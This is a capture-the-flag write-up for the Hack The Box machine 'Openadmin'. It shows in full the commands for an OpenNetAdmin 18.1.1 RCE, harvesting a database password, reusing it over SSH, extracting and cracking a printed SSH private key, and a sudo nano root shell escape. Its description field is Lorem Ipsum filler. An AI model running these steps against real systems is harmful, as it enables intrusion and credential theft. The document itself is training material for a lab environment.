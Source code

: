 ```yaml
---
title: Openadmin - Hack The Box
author: "0xPThree"
description: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2020-01-07
image: images/openadmin_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```


![](images/openadmin_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. root@p3:/opt/htb/machines/resolute# nmapAutomatorDirb.sh 10.10.10.171 All
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http

    + http://openadmin.htb/index.html (CODE:200|SIZE:10918)
    + http://openadmin.htb/server-status (CODE:403|SIZE:278)
    + http://openadmin.htb/artwork/index.html (CODE:200|SIZE:14461)
    + http://openadmin.htb/music/index.html (CODE:200|SIZE:12554)

2. Looking through the websites we find that "Admin" has made a lot of posts on /artwork/blog.html, this might be a possible user.
   Also a testemonial from Craig Stephen, also possible user?

   On /music/index.html, pressing the Login button gives us what looks like admin privs for OpenNetAdmin http://openadmin.htb/ona/
   The application is running on version 18.1.1, which is NOT the latest release. A quick google shows us that this version has a
   RCE vulnerability.

3. Running the RCE script gives us a "shell" as user www-data with limited privs. We are unable to traverse, but can execute commands
    root@p3:/opt/htb/machines/openadmin# ./ona-expl.sh http://openadmin.htb/ona/
      $ whoami
        www-data

   Enumerating through the folders of /opt/ona/www we find a config file for the database connection, and within credentials.
     $ cat local/config/database_settings.inc.php
      <?php

      $ona_contexts=array (
        'DEFAULT' =>
        array (
          'databases' =>
          array (
            0 =>
            array (
              'db_type' => 'mysqli',
              'db_host' => 'localhost',
              'db_login' => 'ona_sys',
              'db_passwd' => 'n1nj4W4rri0R!',
              'db_database' => 'ona_default',
              'db_debug' => false,
            ),
          ),
          'description' => 'Default data context',
          'context_color' => '#D3DBFF',
        ),
      );

   $ ls -al /home/
    total 16
    drwxr-xr-x  4 root   root   4096 Nov 22 18:00 .
    drwxr-xr-x 24 root   root   4096 Nov 21 13:41 ..
    drwxr-x---  6 jimmy  jimmy  4096 Jan  7 06:29 jimmy
    drwxr-x---  6 joanna joanna 4096 Nov 28 09:37 joanna

We got 2 users (jimmy & joanna) and 1 password (n1nj4W4rri0R!)

4. We are able to SSH with the credentials jimmy:n1nj4W4rri0R!
   Enumerating through the box we find /var/www/internal and within index.php, main.php and logout.php.

   main.php has some interesting code - if user = jimmy and password = some-hash, then we are able to access main.php

   <?php
    $msg = '';

    if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
      if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
          $_SESSION['username'] = 'jimmy';
          header("Location: /main.php");
      } else {
          $msg = 'Wrong username or password.';
      }
    }

5. First we need to find the port this local webserver is running on, we use ss for this.
    jimmy@openadmin:/var/www/internal$ ss -tulpn
    Netid        State          Recv-Q          Send-Q                    Local Address:Port                    Peer Address:Port
    udp          UNCONN         0               0                         127.0.0.53%lo:53                           0.0.0.0:*
    tcp          LISTEN         0               80                            127.0.0.1:3306                         0.0.0.0:*
    tcp          LISTEN         0               128                           127.0.0.1:52846                        0.0.0.0:*
    tcp          LISTEN         0               128                       127.0.0.53%lo:53                           0.0.0.0:*
    tcp          LISTEN         0               128                             0.0.0.0:22                           0.0.0.0:*
    tcp          LISTEN         0               128                                   *:80                                 *:*
    tcp          LISTEN         0               128                                [::]:22                              [::]:*

   We know all of the ports except 52846, this is most likely the local webserver. Try to curl it and see if it looks right.
    jimmy@openadmin:/var/www/internal$ curl localhost:52846
      ..
      <h2>Enter Username and Password</h2>
      <div class = "container form-signin">
        <h2 class="featurette-heading">Login Restricted.<span class="text-muted"></span></h2>
            </div> <!-- /container -->
      ..

   This output seems to match the data in /var/www/internal/index.php. So lets try to curl main.php using jimmys credentials.
    jimmy@openadmin:/var/www/internal$ curl localhost:52846/main.php -u jimmy:n1nj4W4rri0R!
      <pre>-----BEGIN RSA PRIVATE KEY-----
      Proc-Type: 4,ENCRYPTED
      DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

      kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
      ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
      ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
      6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
      ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
      y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
      9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
      piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
      /U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
      40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
      fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
      9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
      X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
      S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
      FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
      Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
      RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
      uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
      1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
      XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
      yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
      +4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
      qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
      z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
      K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
      -----END RSA PRIVATE KEY-----
      </pre><html>
      <h3>Don't forget your "ninja" password</h3>
      Click here to logout <a href="logout.php" tite = "Logout">Session
      </html>

   main.php runs the command 'cat /home/joanna/.ssh/id_rsa' meaning we just got joanna's private ssh key.

6. Trying to login with the extracted private key requires an passphrase key, so we need to crack it.
   The key is in .pem format so before cracking we need to convert it using ssh2john.

   root@p3:/usr/share/john# python ssh2john.py /opt/htb/machines/openadmin/joanna-id_rsa > /opt/htb/machines/openadmin/hash-joanna
   root@p3:/opt/htb/machines/openadmin# john --wordlist=/usr/share/wordlists/rockyou.txt hash-joanna
    Using default input encoding: UTF-8
    Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
    Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
    Cost 2 (iteration count) is 1 for all loaded hashes
    Will run 12 OpenMP threads
    Note: This format may emit false positives, so it will keep trying even after
    finding a possible candidate.
    Press 'q' or Ctrl-C to abort, almost any other key for status
    bloodninjas      (/opt/htb/machines/openadmin/joanna-id_rsa)
    1g 0:00:00:01 DONE (2020-01-07 14:43) 0.5882g/s 8436Kp/s 8436Kc/s 8436KC/s  0125457423 ..*7¡Vamos!
    Session completed

   Password for Joanna's Private Key: bloodninjas

7. Login as Joanna and grab user.txt
    root@p3:/opt/htb/machines/openadmin# ssh joanna@openadmin.htb -i joanna-id_rsa
      Enter passphrase for key 'joanna-id_rsa': bloodninjas
    joanna@openadmin:~$ cat user.txt
      c9b2****************************


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. sudo -l shows us that we can run "sudo /bin/nano /opt/priv" without any password. Looking at gtfobins there is a privesc
   using nano to get a root shell.

   joanna@openadmin:/opt$ sudo /bin/nano /opt/priv
   Press CTRL + R to for "Read File" and then CTRL + X for "Execute Command". Next, write 'reset; sh 1>&0 2>&0' to get shell

    Command to execute: reset; sh 1>&0 2>&0
     #
     #
     # whoami
      root
     # cat /root/root.txt
      2f90****************************


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

OpenNetAdmin 18.1.1 RCE
  https://packetstormsecurity.com/files/155406/OpenNetAdmin-18.1.1-Remote-Code-Execution.html

GTFOBINS Nano
  https://gtfobins.github.io/gtfobins/nano/#sudo
